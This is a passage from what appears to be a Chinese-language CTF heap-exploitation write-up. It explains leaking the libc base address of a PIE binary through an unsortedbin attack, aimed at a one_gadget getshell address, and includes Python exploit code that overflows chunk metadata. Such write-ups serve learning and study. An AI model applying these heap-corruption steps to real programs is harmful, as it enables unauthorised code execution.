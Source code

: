 ## 构造payload，泄露libc地址

这个程序没有什么地方可以getshell的，所以可以考虑通过libc获取shell，

在libc（2.23）中这里有getshell代码片段，所以目标是跳转到这个地址 0x4526a

（可以通过one-gadget工具扫描找到这样的getshell地址）

![Alt text](./img/image-14.png)

在之前可以看到程序开启了PIE（Position Independent Executable），所以需要先想办法获取到 libc 的基地址先（每次执行程序时这个地址都不同）

此处的思路时通过unsortedbin-attack，获取unsortedbin的地址，根据偏移来算出libc的地址，根据偏移算出getshell的地址。

构造payload，再次运行。

```python
alloc(0x80)# Chunk 0
alloc(0x80)# Chunk 1
alloc(0x80)# Chunk 2
alloc(0x80)# Chunk 3
fill(0, 0x80, "0"*0x80)
fill(1, 0x80, "1"*0x80)
fill(2, 0x80, "2"*0x80)
fill(3, 0x80, "3"*0x80)
payload0 = b'a'*(0x80 + 8) + p64(0x120 + 1)
# payload0 = b'a'*(0x80)
fill(0, len(payload0), payload0)
free(1)
# target.recv()
# target.recv()
alloc(0x80) # Chunk 1
```